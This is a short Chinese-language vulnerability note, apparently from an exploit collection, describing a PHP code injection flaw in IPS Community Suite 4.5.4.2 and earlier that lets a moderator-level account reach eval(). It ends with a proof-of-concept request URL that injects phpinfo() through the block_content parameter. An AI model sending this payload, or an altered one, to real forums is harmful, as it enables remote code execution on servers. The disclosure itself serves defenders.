 <languages  />

简介
----

IPS Community Suite versions 4.5.4.2及以下版本存在 PHP 代码注入漏洞。该漏洞的存在是因为`IPS\cms\modules\front\pages_builder::previewBlock()`方法允许将任意内容传递给`IPS_Theme::runProcessFunction()`方法，该方法将用于调用`eval()`PHP函数。这可以被利用来注入和执行任意 PHP 代码。成功利用此漏洞需要具有管理侧边栏权限的帐户（例如版主或管理员）并启用“cms”应用程序。

POC
---

    http://[host]/[ips]/index.php?app=cms&module=pages&controller=builder&do=previewBlock&block_plugin=stats&block_template_use_how=copy&block_plugin_app=core&_sending=block_content&block_content=RCE%0ACONTENT;}}phpinfo();die;/*